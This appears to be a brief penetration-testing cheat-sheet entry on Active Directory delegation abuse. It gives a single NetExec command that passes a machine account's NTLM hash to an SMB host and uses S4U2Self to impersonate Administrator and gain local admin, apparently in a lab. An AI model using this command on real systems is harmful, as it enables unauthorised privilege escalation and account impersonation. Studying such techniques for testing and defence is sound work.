 ```yaml
---
tags:
  - S4U2Proxy
  - S4U2Self
  - AD
---
```

**Get local admin with machine accounts via s4u2self**
```bash
nxc smb 192.168.56.10 -u 'KINGSLANDING$' -H 220fc1990391bdc183d1a68c389c0229 --delegate Administrator --self
```
